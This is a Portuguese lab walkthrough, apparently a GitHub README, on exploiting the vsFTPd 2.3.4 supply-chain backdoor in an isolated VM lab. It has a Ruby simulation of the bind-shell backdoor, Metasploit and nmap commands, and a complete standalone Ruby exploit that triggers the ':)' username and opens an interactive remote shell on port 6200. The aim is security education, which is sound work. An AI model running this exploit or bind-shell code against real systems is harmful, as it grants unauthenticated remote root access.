

# Exploração do Backdoor vsFTPd 2.3.4
Simulação e exploração do backdoor no serviço vsFTPd v2.3.4 — laboratório com Metasploit e script autônomo em Ruby.

> Aviso!
> Este guia foi feito para fins educacionais, aprofundando o conhecimento em ferramentas e conceitos. Todos os processos, ferramentas e scripts mostrados aqui devem ser usados com cautela, apenas em ambientes isolados e controlados, ou com autorização explícita para tal.

> Ambiente: VirtualBox (Host-Only), Kali Linux (atacante) e Metasploitable (alvo).  
> Escopo: somente máquinas próprias/VMs para fins educativos — não realizar testes sem autorização.

---

O vsftpd é um servidor FTP para sistemas Unix-like, incluindo Linux. É o servidor padrão no Ubuntu, CentOS, Fedora, entre outras distros. Em 2011, o tarball da versão 2.3.4 do serviço (*vsftpd 2.3.4*) foi comprometido antes da distribuição: alguém introduziu código malicioso no código-fonte oficial. Essa edição adicionou um backdoor que abria um **bind shell** (um shell ligado a uma porta TCP) se o cliente de FTP efetuasse login com um nome de usuário contendo a sequência `:)` (o “smiley”).

> #### O que é um Backdoor?
> Um backdoor em um software ou sistema é geralmente uma porta de acesso não documentada que permite ao administrador entrar no sistema, solucionar problemas ou fazer manutenção. O grande problema do backdoor é quando ele é acessado para obter acesso ilícito, seja escravizar o computador ou espionagem. Por isso, a expressão assume diversos significados. Pode se referir a um ponto legítimo de acesso embutido em um sistema ou programa de software para administração remota, ou uma falha para acesso criminoso.

## Comportamento do backdoor
O código malicioso incluído no `vsftpd-2.3.4` faz o seguinte:

1. O servidor FTP recebe um comando `USER`.
2. Ele verifica se o nome de usuário contém a string `":)"`.
3. Se contiver, ele:
    - Cria um novo **processo** (para não bloquear o FTP).
    - Cria um **socket TCP** e faz `bind` na **porta 6200** (qualquer IP local).
    - Coloca esse socket em modo `listen()` e aguarda uma conexão (`accept()`).
    - Quando alguém se conecta, ele:
        - Redireciona o `stdin`, `stdout` e `stderr` desse socket.
        - Executa `/bin/sh` (abrindo um shell remoto).

O servidor infectado cria um _bind shell_: ele mesmo abre uma porta e oferece um shell a quem se conectar.

### A lógica por trás
Vamos fazer uma **simulação** de como exatamente o backdoor faz tudo isso, de forma **didática e segura**, utilizando a linguagem *Ruby*, que é bastante legível e expressiva. Além disso, vamos utilizar uma máquina virtual com o Kali Linux, para rodar o script de forma isolada:

> Atenção!
>- Rode **somente** em ambientes controlados e isolados.
>- Não exponha bind shells à rede pública.

```Ruby
# simulate_backdoor.rb

require 'socket'

# função que simula o tratamento de login do FTP
def handle_login(username)
  puts "[FTP] Recebido USER #{username}"

  # 1. Verifica se o nome de usuário contém ":)"
  if username.include?(":)")
    puts "[BACKDOOR] Trigger detectado! Criando bind shell na porta 6200..."

    # 2. Cria um processo filho (fork)
    pid = fork do
      # 3. Cria o socket TCP do servidor
      server = TCPServer.new('0.0.0.0', 6200)
      puts "[BACKDOOR] Escutando na porta 6200..."

      # 4. Aceita uma conexão
      client = server.accept
      puts "[BACKDOOR] Conexão recebida! Iniciando /bin/sh"

      # 5. Redireciona I/O para o socket
      $stdin.reopen(client)
      $stdout.reopen(client)
      $stderr.reopen(client)

      # 6. Executa uma shell do sistema
      exec("/bin/sh")
    end

    Process.detach(pid)  # O processo pai não espera o filho
  else
    puts "[FTP] Usuário normal, prosseguindo login..."
  end
end


# --- Simulação de chamadas FTP ---
handle_login("llrods")     # login normal
handle_login("teste:)")
```

### Explicando os passos da simulação:
1. `username.include?(":)")` verifica se o login contém o "gatilho", que será o sinal para ativar o backdoor.
2. `fork do ... end` cria um processo filho, permitindo que o servidor continue rodando normalmente enquanto o filho abre o socket oculto. (O fork é comum em servidores para permitir múltiplas conexões simultâneas.)
3. `TCPServer.new('0.0.0.0', 6200)` cria o bind na porta 6200, que é a operação pela qual você associa um socket a um endereço local (IP) e uma porta. É a etapa que um servidor realiza para “anunciar” que vai ouvir conexões naquela porta.
4. `server.accept` aguarda uma conexão do atacante, bloqueando até que alguém faça `nc target 6200`.
5. `reopen(client)` redireciona stdin, stdout e stderr, ligando a entrada e saída do processo ao socket (assim o atacante “vê” o shell).
6. `exec("/bin/sh")` executa o shell real do sistema, substituindo o processo filho pelo shell.
7. `Process.detach(pid)` evita o zombie process, liberando o pai do controle sobre o filho.

Depois disso, quem se conectar na porta 6200 (no nosso teste, conectando ao *localhost*) ganha um shell do sistema — o mesmo efeito que iremos explorar a seguir.

**Teste:**
1. `ruby simulate_backdoor.rb`
2. O script exibirá que disparou o backdoor. 
3. No outro terminal execute: `nc 127.0.0.1 6200`
4. Você deverá obter uma shell (`/bin/sh`).
Dica: se o shell não vier, verifique `ss -lntp | grep 6200` e `ps aux | grep simulate_backdoor`.

## Observações e implicações de segurança

- Este backdoor **não era um bug acidental**, mas **um código malicioso inserido** no pacote oficial — um ataque à cadeia de suprimentos.
- O `vsftpd` normalmente roda como `root` ou com privilégios de sistema, então o shell aberto era **root remoto** sem autenticação.
- Isso mostra que mesmo softwares amplamente usados podem ser comprometidos se a integridade das fontes não for verificada.

---

## Explorando a Vulnerabilidade com o Metasploit
Agora que entendemos como o backdoor funciona, vamos explorar essa vulnerabilidade.  Para isso, vamos utilizar a ferramenta Metasploit em uma máquina virtual do Kali Linux, e como alvo, uma máquina virtual do Metasploitable. 
Na máquina vulnerável, criei um arquivo chamado **"flag.txt"**, na pasta **"/home/msfadmin"**, e o objetivo do ataque será ler este arquivo. 

### 1. Verificando Conexão 
Primeiro nos asseguramos da conectividade com a máquina alvo, utilizando o ping:
```bash
ping 192.168.56.102
```

### 2. Análise de Portas
Agora, utilizaremos o Nmap para identificar portas e serviços abertos em execução na maquina alvo:
```bash
nmap -sC -A --open 192.168.56.102
```


Podemos ver que, entre outros serviços, a porta 21 está aberta e rodando o serviço `vsftpd` na versão 2.3.4.

### 3. Procurando o exploit
Acessando agora o metasploit, vamos procurar um módulo de exploração para esse serviço e versão:
```bash
msfconsole
serach vsftpd 2.3.4
```


A pesquisa retorna o exploit `vsftpd_234_backdoor`, que tem classificação _excellent_ quanto à confiabilidade da exploração. Este exploit é projetado especificamente para aproveitar o backdoor dessa versão do vsftpd.

Também podemos pesquisar diretamente no Exploit-DB (dentro ou fora do msfconsole)
```bash
searchsploit vsftpd 2.3.4
```


Aqui confirmamos não apenas o modulo do metasploit, o script em ruby, mas também um script autônomo, em python.  Agora é possível ver mais detalhes sobre o script, rodando novamente o comando mas buscando o nome do arquivo com a flag `-p`, que também copia o caminho do arquivo, ou fazer uma copia do arquivo com o `-m`.

### 4. Configurando
Agora que identificamos o exploit, podemos configurar o metasploit para utiliza-lo com o caminho  ou, após o search, com o index que foi mostrado:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
# OU
use 0
```

Com o comando `show options` podemos ver os parâmetros que precisam ser configurados. Neste caso, o *RPORT*, que é a porta do serviço, já está configurada na padrão, então iremos inserir apenas o *RHOSTS*, que é o IP da maquina alvo. Inserimos com `set rhosts <IP>`:


### 5. Executando o Exploit
Agora basta executar o comando `exploit`:



O exploit realiza a exploração com sucesso. Como não selecionamos um payload, ele escolhe automaticamente o *cmd/unix/interact*,  que se conecta ao bind shell criado, e com isso podemos interagir com o sistema da maquina alvo.
Conseguimos ler o arquivo **"flag.txt"**, concluindo nosso objetivo.

---
## Explorando a Vulnerabilidade por Script
Quando temos exploits prontos para uma vulnerabilidade conhecida, utilizar o metasploit para explora-la será, provavelmente, mais rápido e eficiente. Mas é importante saber **como uma ferramenta funciona** e não apenas como executa-la, para que, em casos mais complexos, você tenha o conhecimento para poder modificar o exploit, ou até mesmo criar um novo.

Não trarei aqui o script exato do metasploit pois ele contém partes específicas para a execução pelo metasploit, então vamos criar um script simplificado, que faça o mesmo caminho para explorar a vulnerabilidade.  Utilizaremos a linguagem Ruby novamente, pois além de ser uma linguagem de fácil legibilidade, como já mencionei antes, também é a linguagem utilizada no metasploit.

### Resumo rápido

Assim como faz o exploit do metasploit, o script tenta obter uma shell remota do backdoor do `vsftpd 2.3.4`, mas aqui de forma simplificada:

1. Tenta conectar diretamente na porta do backdoor (padrão 6200). Se já houver um listener, ele vai utiliza-lo.
2. Se não, conecta ao serviço FTP (porta 21), envia `USER <algo>:)` e `PASS x` para **acionar o backdoor**.
3. Faz tentativas para conectar na porta 6200 do alvo até o bind shell aparecer.
4. Valida que a conexão é um shell (envia `id` e checa o retorno).
5. Se for um shell, abre uma sessão interativa básica: uma thread lê tudo do socket e imprime; a thread principal lê linhas do stdin e envia ao socket.

É uma implementação _line-based_, simples e pedagógica — suficiente para comandos básicos (ls, cat, id, etc.), mas sem PTY.

```ruby
#!/usr/bin/env ruby

require 'socket'

# Verifica se existem os argumentos necessários
if ARGV.empty?
    puts "Uso: #{$PROGRAM_NAME} <TARGET> [ftp_port=21] [backdoor_port=6200]"
    exit 1
end

# Define as váriaveis e valores default
target = ARGV[0]
ftp_port = (ARGV[1] || 21).to_i
backdoor_port = (ARGV[2] || 6200).to_i

# Função utilitaria para abrir um TCPSocket ignorando exceções
def try_connect(host, port)
    begin
        TCPSocket.new(host, port)
    rescue
        nil
    end
end

puts "[*] alvo=#{target} ftp=#{ftp_port} backdoor=#{backdoor_port}"

# 1. Verifica já existe bind shell
s = try_connect(target, backdoor_port)
if s
    puts "[*] já tinha serviço em #{backdoor_port}, usando..."
else
    # 2. Tenta conectar no FTP e acionar o gatilho
    ftp = try_connect(target, ftp_port)
    unless ftp
        puts "[!] não consegui conectar em #{target}:#{ftp_port}"
        exit 1
    end

    # tentar ler banner, ignorando exceções
    begin
        banner = ftp.gets
        puts "[*] banner: #{banner.strip}" if banner
    rescue
        # Ignora
    end

    # Envia USER com gatilho ":)" e valida a resposta do servidor
    begin
        ftp.puts 'USER exploit:)'
        resp = ftp.gets
        puts "[*] resposta USER: #{resp.strip}" if resp

        if resp =~ /^530 /
            puts '[!] Servidor configurado anonymous-only (530). Backdoor não pode ser alcançado via este caminho.'
            ftp.close rescue nil
            exit 1
        end

        if resp !~ /^331 /
            puts "[!] Resposta inesperada ao USER: #{resp.strip}"
            ftp.close rescue nil
            exit 1
        end

        ftp.puts 'PASS x'
    rescue => e
        puts "[!] erro ao falar com FTP: #{e}"
        ftp.close rescue nil
        exit 1
    ensure
        ftp.close rescue nil
    end

    # 3. Tenta conectar ao bind shell
    puts '[*] Aguarde, tentando conectar no backdoor...'
    tries = 10
    tries.times do
        s = try_connect(target, backdoor_port)
        break if s

        sleep 0.4
    end

    unless s
        puts "[!] Backdoor não apareceu na porta #{backdoor_port}."
        exit 1
    end

    puts "[*] conectado ao backdoor em #{backdoor_port}"
end

# 4. Valida se realmente temos uma shell simples (envia 'id')
begin
    s.puts "id\n"
    resp = s.gets
    if resp =~ /uid=/
        puts "[+] Shell detectada: #{resp.strip}"
    else
        puts "[!] Não parece ser uma shell (resposta: #{resp.inspect}). Prosseguindo com cautela..."
        exit 1
    end
rescue => e
    puts "[!] Erro ao validar shell: #{e}"
end

# 5. Inicia sessão interativa simples (reader thread + loop de escrita)
reader = Thread.new do
    begin
        loop do
            data = s.recv(4096)
            break if data.nil? || data.empty?

            print data
        end
    rescue => e
        $stderr.puts "[!] reader thread erro: #{e}"
    end
end

begin
    while line = $stdin.gets
        s.write(line)
    end
rescue Interrupt
    # Ctrl-C para sair
ensure
    s.close rescue nil
    reader.join(1)
    puts "\n[*] sessao encerrada"
end

```

### Detalhando o Código
1. `s = try_connect(target, backdoor_port)` verifica se o bind shell já existe, evitando disparar o gatilho desnecessariamente (se outro atacante já disparou ou se a porta já estava aberta).
2. `ftp = try_connect(target, ftp_port)` conecta no FTP, ou aborta caso falhe, depois lê o banner (opcional,  apenas informativo) e aciona o gatilho com `ftp.puts 'USER exploit:)'`.  Aqui também validamos o retorno do servidor, nos protegendo contra falsos positivos e servers que não se comportam como o esperado:
	- Se `resp =~ /^530 /` - servidor é anonymous-only - aborta (backdoor inacessível por esse caminho).
	- Se `resp !~ /^331 /` - resposta inesperada - aborta para evitar tentar em servidor diferente.
3.  `tries.times do ... try_connect ... sleep` tenta conectar no bind shell em um loop de 10 tentativas, pois o backdoor cria listener num processo filho e pode demorar um pouco até a porta aparecer. Se após as tentativas ele não conseguir conectar, aborta com mensagem.
4. `s.puts "id\n"` e `resp = s.gets` para validar se realmente temos um shell e não outro serviço aleatório, enviando o comando `id`, que deve retornar com o uid do usuário para considerarmos um shell válido, se não é abortado.
5. Por fim, cria uma sessão interativa:
	- `reader = Thread.new do ... end` cria uma thread separada, que faz  `s.recv(4096)` em loop e faz o `print data`, pegando e exibindo as informações vindas do servidor.
	- `while line = $stdin.gets` é o loop principal que lê linhas do usuário e envia para o shell remoto com `s.write(line)`
	- `rescue Interrupt` captura Ctrl-C para sair limpo
	- `ensure` fecha o socket e `reader.join(1)` para aguardar término
	Cria assim uma forma simples de I/O full-duplex — uma thread para receber dados remotos e outra principal para enviar. É suficiente para comandos baseados em linha (ex.: `id`, `ls`, `cat arquivo`). Não cria um PTY, portanto programas interativos não funcionarão corretamente (`vi`, `top`, etc.).:

**Teste:**
1. Crie o script `vsftpd_simple.rb`
2. Use o comando `chmod +x vsftpd_simple.rb` para torná-lo executável
3. Execute com `vsftpd_simple.rb <TARGET>` onde o target é o IP da maquina virtual do Metasploitable.


E assim como no Metasploit, o script consegue fazer a exploração com sucesso e podemos interagir com o sistema da maquina alvo.
Conseguimos encontrar e ler o arquivo **"flag.txt"**, concluindo nosso objetivo com este método também.

---

## Conclusão
O caso do **vsftpd 2.3.4** é um exemplo histórico e emblemático de como uma simples modificação em código-fonte pode comprometer toda uma cadeia de distribuição e milhares de sistemas ao redor do mundo.  
Mais do que uma vulnerabilidade técnica, trata-se de um alerta sobre a importância de garantir a **integridade do software**, da **verificação de assinaturas** e da **confiança na origem dos pacotes**.

Ao longo deste estudo, vimos:

- Como o backdoor funciona internamente, simulando seu comportamento em Ruby;
- Como explorá-lo de forma automatizada através do Metasploit;
- E como reproduzir a exploração manualmente, compreendendo o protocolo FTP, o gatilho `:)` e a conexão ao _bind shell_.

Dominar o funcionamento interno de exploits é essencial para qualquer profissional de segurança, pois permite não apenas **executar ferramentas**, mas **entender seus mecanismos**, analisar comportamentos anômalos e, principalmente, **defender sistemas de forma mais eficaz**.

> “Saber explorar uma vulnerabilidade é apenas metade do aprendizado; entender por que ela existe — e como evitá-la — é o que transforma um ataque em conhecimento.”
